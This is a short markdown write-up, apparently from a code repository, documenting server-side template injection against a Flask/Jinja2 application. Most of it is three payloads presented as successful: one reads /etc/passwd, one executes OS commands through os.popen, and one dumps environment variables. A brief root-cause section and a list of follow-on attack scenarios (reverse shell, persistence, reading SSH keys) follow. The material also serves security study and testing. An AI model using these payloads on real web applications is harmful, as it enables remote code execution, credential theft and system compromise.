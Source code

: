 # Server-Side Template Injection (SSTI) Payloads Documentation

## Vulnerability Analysis

- **Target Application**: Flask/Jinja2 Template Injection
- **Vulnerability Type**: Server-Side Template Injection
- **Attack Vector**: Unprotected template string interpolation

## Successful Payloads

### 1. File Read Payload

```python
{{ self.__init__.__globals__.__builtins__.open('/etc/passwd').read() }}
```

**Impact**: Reads system password file

### 2. Command Execution

```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

**Impact**: Executes system commands

### 3. Environment Variables

```python
{{ self.__init__.__globals__.__builtins__.__import__('os').environ }}
```

**Impact**: Reveals sensitive environment variables

## Root Cause Analysis

### Unsafe Template Rendering

```python
template = f'Hello, {{ {user_input} }}!'
```

- No Input Sanitization
- Dangerous Function Usage (`render_template_string`)

## Attack Scenarios

### Scenario 1: Data Exfiltration

- Read sensitive files (`/etc/passwd`, `/etc/shadow`)
- Access application source code
- Read configuration files

### Scenario 2: System Compromise

- Execute arbitrary commands
- Gain reverse shell
- Install persistence mechanisms

### Scenario 3: Privilege Escalation

- Read SSH keys
- Access restricted files
- Modify system configurations
